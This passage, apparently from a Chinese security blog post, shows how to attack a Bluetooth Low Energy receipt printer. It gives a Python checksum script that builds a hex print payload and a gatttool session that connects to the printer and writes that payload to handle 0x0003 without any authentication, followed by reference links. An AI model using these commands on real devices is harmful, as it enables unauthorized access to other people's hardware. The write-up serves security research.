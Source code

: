 ```

Header="aa"

checknum=int('56',16)

while x &lt; datalen:

      checknum-=int(data[x:x+2],16)

      x+=2

checknum&amp;=0xff

result=Header+data+hex(checknum)[2:]

print (result)

&gt;&gt;aa3100040b020005000c020002000d010000100100001101000012010000071400556e69636f726e205465616d205072696e740ae4
```

通过我们脚本转成ascii编码并计算出校验码

攻击流程

[![](https://p5.ssl.qhimg.com/t01d36a247978f33c78.png)](https://p5.ssl.qhimg.com/t01d36a247978f33c78.png)

[![](https://p4.ssl.qhimg.com/t01f0def9a3f1c92d94.png)](https://p4.ssl.qhimg.com/t01f0def9a3f1c92d94.png)

```
gatttool -I -b 00:15:83:C3:B9:5F

[00:15:83:C3:B9:5F][LE]&gt; connect

[00:15:83:C3:B9:5F][LE]&gt; char-write-req 0x0003 aa3100040b020005000c020002000d010000100100001101000012010000071400556e69636f726e205465616d205072696e740ae4
```

我们只要在无线网络中扫描到任何这个打印机设备，没有任何的验证措施就可以链接上去了，然后我吧数据写入handle: 0x0003, uuid: 0000ff02 之后就可以打印出纸条了。

[![](https://p0.ssl.qhimg.com/t01e4facc6f8fa89afc.png)](https://p0.ssl.qhimg.com/t01e4facc6f8fa89afc.png)

## 参考链接

[https://www.cnblogs.com/HacTF/p/7772955.html](https://www.cnblogs.com/HacTF/p/7772955.html)

[https://sec.xiaomi.com/article/39](https://sec.xiaomi.com/article/39)

[https://www.anquanke.com/post/id/87128](https://www.anquanke.com/post/id/87128)

[https://github.com/securing/gattacker](https://github.com/securing/gattacker)

[https://github.com/DigitalSecurity/btlejuice](https://github.com/DigitalSecurity/btlejuice)

[http://www.freebuf.com/articles/network/167132.html](http://www.freebuf.com/articles/network/167132.html)

[http://www.freebuf.com/articles/wireless/180716.html](http://www.freebuf.com/articles/wireless/180716.html)
